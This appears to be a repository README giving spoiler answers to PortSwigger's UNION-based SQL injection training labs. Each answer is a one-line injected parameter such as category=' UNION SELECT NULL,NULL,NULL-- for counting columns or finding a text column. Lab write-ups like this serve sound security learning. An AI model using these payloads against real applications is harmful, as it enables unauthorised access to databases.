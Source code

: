 # [SQL Injection Labs](https://portswigger.net/web-security/all-labs)

This contains answers and spoilers to all of PortSwigger's SQL Injection labs.
Do not read unless explicitly looking for exact answers

## UNION - Determine number of columns

<details> 
  <summary> <b> ANSWER SPOILER ALERT </b> </summary>
      
  Identify number of columns by appending NULL to UNION SELECT string:  

    category=' UNION SELECT NULL,NULL,NULL--
  
</details>

## UNION - Find column containing text

<details> 
  <summary> <b> ANSWER SPOILER ALERT </b> </summary>
 
 Identify number of columns by appending NULL to UNION SELECT string:  
  
    category=' UNION SELECT NULL,NULL,NULL--
      
 Replace NULL with string to identify column:
  
    category=' UNION SELECT NULL,'[STRING]',NULL--
      
</details>

## UNION - Retrive data from other tables

<details> 
  <summary> <b> ANSWER SPOILER ALERT </b> </summary>
   
  Verify number of colums with the NULL payload:
  
    category=' UNION SELECT NULL,NULL--

</details>
